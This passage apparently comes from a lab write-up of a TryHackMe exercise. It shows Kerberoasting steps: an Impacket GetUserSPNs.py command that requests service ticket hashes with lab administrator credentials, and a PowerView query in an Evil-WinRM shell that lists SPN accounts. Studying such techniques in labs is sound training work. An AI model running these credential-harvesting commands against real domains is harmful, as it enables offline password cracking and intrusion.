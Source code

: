 ![](/assets/obsidian/eca79c5508b693f8da453e0d983d958b.png)


#### Using Impacket

It will only retrieve `SQLService` without using userlist

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 -request CONTROLLER.local/Administrator:'P@$$W0rd' -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
```


#### Using PowerView

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN | select samaccountname

samaccountname
--------------
krbtgt
SQLService
```
